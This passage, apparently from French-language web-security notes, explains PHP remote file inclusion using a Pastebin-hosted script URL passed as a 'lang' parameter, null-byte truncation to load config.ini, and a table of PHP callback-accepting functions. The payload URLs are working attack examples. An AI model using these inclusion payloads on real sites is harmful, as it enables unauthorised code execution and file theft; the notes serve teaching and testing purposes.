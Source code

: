 #### RFI
Dans le cas du RFI nous allons pouvoir décider de ce que fait le fichier passé en paramètre et ne sommes donc pas bornés aux fonctionnalités trouvés sur le site cible.
Par exemple, considérons un script PHP affichant le fichier `index.php`:

    <?php echo file_get_contents("index.php"); ?>
A défaut de le stocké sur son propre serveur, il est possible d'utiliser un site comme https://pastebin.com pour stocker ce code (`raw.php`). Ne reste plus qu'à passer le fichier par exemple avec comme point d'entrée la configuration du fichier de langue et le # (`%23`) à la fin de l'url pour utiliser le payload:

    http://domain.cim/index.php?lang=http://pastebin.com/raw.php?i=Qbsbgvpk%23

#### Null byte
Le null byte `%00` sert à marquer la fin d'une chaîne de caractère. Il peut être utilsié dans le cas d'une injection de fichier quand par exemple l'extention est ajouté par le code. Pour charger le fichier `admin.php`, la valeur de la variable dans l'URL est `admin` et le script sur le serveur concatène le `.php`.
Dans ce cas le serveur contraint au chargement de fichier PHP. Pour le contourner et par exemple récupérer un `config.ini` il suffit de rentrer `config.ini%00` ainsi lors de l'interpretation le nom s'arrêtera au null byte et le `.php` concaténé ne sera pas lu.

### Les fonctions autorisant les callbacks
Fonction | Position dans les arguments 
:- |:-
ob_start| 0
array_diff_uassoc| -1
array_diff_ukey| -1
array_filter| 1
array_intersect_uassoc| -1
array_intersect_ukey| -1
array_map| 0
array_reduce| 1
array_udiff_assoc| -1
array_udiff_uassoc| array(-1, -2)
array_udiff| -1
array_uintersect_assoc| -1
array_uintersect_uassoc| array(-1, -2)
array_uintersect| -1
array_walk_recursive| 1
array_walk| 1
assert_options| 1
uasort| 1
uksort| 1
usort| 1
preg_replace_callback| 1
spl_autoload_register| 0
iterator_apply| 1
call_user_func| 0
call_user_func_array| 0
register_shutdown_function| 0
register_tick_function| 0
set_error_handler| 0
set_exception_handler| 0
session_set_save_handler| array(0, 1, 2, 3, 4, 5)
sqlite_create_aggregate| array(2, 3)
sqlite_create_function| 2
